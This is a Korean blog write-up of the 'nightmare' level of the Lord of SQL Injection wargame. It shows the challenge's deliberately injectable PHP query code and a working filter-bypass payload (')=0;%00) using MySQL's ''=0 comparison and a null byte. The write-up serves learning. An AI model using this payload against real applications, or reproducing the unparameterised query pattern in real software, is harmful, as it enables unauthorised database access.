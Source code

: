 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - nightmare 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번 문제는 `nightmare`이다.  

문제 이름 답게 엄청 고민 많이 했던 문제이다.  

<!--more-->

코드는 다음과 같다.  

```php
---------------------------------------------------------------------------------------
query : select id from prob_nightmare where pw=('') and id!='admin'
---------------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)|#|-/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(strlen($_GET[pw])>6) exit("No Hack ~_~"); 
  $query = "select id from prob_nightmare where pw=('{$_GET[pw]}') and id!='admin'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("nightmare"); 
  highlight_file(__FILE__); 
?>
```

이번에는 주석으로 사용했던 문자들이 다 필터링이 걸려 있다.  

그리고 글자 수도 6글자 이내로 적어야 한다는 제한도 있다.  

그럼 일단 주석에 대한 필터링도 우회해야 하고, `pw`에 `('')` 이런식으로 괄호가 생겨서 이 것도 어떻게 해결해야 할지 고민해야 했다.  

결론적으로 이건 문제를 못풀겠어서 인터넷을 찾아봤었다.  

쿼리를 작성할 때, `pw=1=1` 형태로도 쓸 수 있다.  

이럴 경우, `1=1`은 참이기 때문에 `pw=참`이 되어 쿼리가 정상적으로 실행된다.  

이미 쿼리에 `('')` 은 있으므로, 이 공백과 비교했을 때 참이될 수 있는 값은 `0`이다.  

이를 실제로 테스트 해 보기 위해 아래와 같이 `mysql`을 실행시켜보았다.  

```
mysql> select ''=0 ;
+------+
| ''=0 |
+------+
|    1 |
+------+
1 row in set (0.01 sec)

```

결과값이 1이 나오는 것을 알 수 있다.  

그래서 `')=0`을 넣고, 뒤의 나머지 조건을 무시하게 하기 위해서 `;`과 `null`을 넣어주었다.  

```
?pw=')=0;%00
```

그랬더니 문제를 풀 수 있었다.  

```php
-----------------------------------------------------------------------------------------
query : select id from prob_nightmare where pw=('')=0;') and id!='admin'
-----------------------------------------------------------------------------------------

NIGHTMARE Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)|#|-/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(strlen($_GET[pw])>6) exit("No Hack ~_~"); 
  $query = "select id from prob_nightmare where pw=('{$_GET[pw]}') and id!='admin'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("nightmare"); 
  highlight_file(__FILE__); 
?>
```

`NIGHTMARE Clear!!`
